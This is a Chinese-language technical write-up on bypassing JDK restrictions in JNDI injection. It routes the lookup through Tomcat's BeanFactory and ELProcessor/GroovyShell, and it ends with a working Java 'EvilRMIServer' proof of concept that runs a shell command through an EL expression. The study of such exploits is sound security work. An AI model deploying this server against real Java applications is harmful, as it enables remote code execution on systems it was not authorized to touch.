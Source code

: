 上面注释标注了关键的部分，我们可以通过在返回给客户端的 `Reference` 对象的 `forceString` 字段指定 `setter` 方法的别名，并在后续初始化过程中进行调用。`forceString` 的格式为 `a=foo,bar`，以逗号分隔每个需要设置的属性，如果包含等号，则对应的 `setter` 方法为等号后的值 `foo`，如果不包含等号，则 `setter` 方法为默认值 `setBar`

在后续调用时，调用 `setter` 方法使用单个参数，且参数值为对应属性对象 `RefAddr` 的值 (`getContent`)。因此，实际上我们可以调用任意指定类的任意方法，并指定单个可控的参数（RCE的调用函数的点）

因为使用 `newInstance`创建实例（也就是后面`Poc`中的`ELProcessor`），所以只能调用无参构造，这就要求目标 `class` 得有无参构造方法，上面 `forceString` 可以给属性强制指定一个 `setter` 方法，参数为一个 `String` 类型

于是找到 `javax.el.ELProcessor` 作为目标 `class`，利用 `el` 表达式执行命令，工具 [JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass) 中的 `EvilRMIServer.java` 部分代码如下

![zongjie3.png](https://storage.tttang.com/media/attachment/2022/05/25/5b518569-640f-4972-bb40-3e6395f31974.png)

所以整个绕过流程就是：
为了绕过`ConfigurationException`，需要满足`ref.getFactoryClassLocation()` 为空，只需要在远程 `RMI` 服务器返回的 `Reference` 对象中不指定 `Factory` 的 `codebase`

来到`NamingManager`，需要在攻击者本地`CLASSPATH`找到这个`Reference Factory`类并且在其中一块代码能执行`payload`，找到了`BeanFactory`作为工厂类，`BeanFactor`使用`newInstance`创建实例，所以只能调用无参构造，这就要求目标 `class` 得有无参构造方法且有办法执行相关命令，于是找到`ELProcessor`和`GroovyShell`

**总结：**绕过了`ConfigurationException`，进入`NamingManager`，使用`BeanFactor`创建`ELProcessor`/`GroovyShell`无参实例，然后`BeanFactor`根据别名去调用方法（执行`ELProcessor`中的`eval`方法）

**从JNDI_Injection_Bypass看另一种绕过方式：**

`groovy.lang.GroovyShell`，原理也是类似的
![zongjie4.png](https://storage.tttang.com/media/attachment/2022/05/25/93428660-6110-414b-9e97-455163b504fb.png)

传入的 `Reference`为 `ResourceRef` 类，后面通过反射的方式实例化 `Reference` 所指向的任意 `Bean Class`，调用 `setter` 方法为所有的属性赋值，该 `Bean Class` 的类名、属性、属性值，全都来自于 `Reference` 对象。`ResourceRef`构造器的第七个参数`factoryLocation`是远程加载`factory`的地址，比如是一个`url`,这里将其设置为`null`,达到绕过`ConfigurationException`限制

#### poc

因为要使用 `javax.el.ELProcessor`，所以需要 `Tomcat 8+`或`SpringBoot 1.2.x+`

服务端：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("[*]Evil RMI Server is Listening on port: 6666");
        Registry registry = LocateRegistry.createRegistry( 6666);
        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/bash', '-c', 'touch /tmp/mi1k7ea']).start()\")"));
        System.out.println("[*]Evil command: touch /tmp/mi1k7ea");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```
